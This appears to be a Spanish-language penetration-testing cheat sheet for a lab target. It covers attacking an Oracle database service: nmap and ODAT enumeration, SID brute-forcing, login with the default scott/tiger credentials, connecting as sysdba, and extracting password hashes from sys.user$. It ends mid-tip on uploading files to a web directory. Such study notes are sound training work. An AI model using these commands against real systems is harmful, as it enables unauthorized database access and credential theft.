 ```bash
./odat.py -h
```

***

### Enumeración

```bash
# Enumeración básica con nmap
sudo nmap -p1521 -sV 10.129.204.235 --open

# Fuerza bruta de SID
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute

# Enumeración completa con ODAT
./odat.py all -s 10.129.204.235

# Interacción con credenciales conocidas
sqlplus scott/tiger@10.129.204.235/XE

# Fix para errores de SQLPlus
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"; sudo ldconfig
```

> **IMPORTANT** En Oracle, un **SID** identifica de forma única una instancia de base de datos. Cada instancia tiene procesos y memoria propios. El cliente debe especificar el SID en su cadena de conexión.

> [Documentación de comandos SQLPlus](https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985)

***

### Interacción con Oracle

```bash
# Listar todas las tablas
select table_name from all_tables;

# Consultar contenido de una tabla
select * from user_role_privs;

# Conexión como sysdba
sqlplus scott/tiger@10.129.204.235/XE as sysdba

# Consultar privilegios
select * from user_role_privs;

# Extraer hashes de contraseña
select name, password from sys.user$;
```

> **TIP** Podemos subir un archivo al servidor si conocemos la ruta del directorio web:
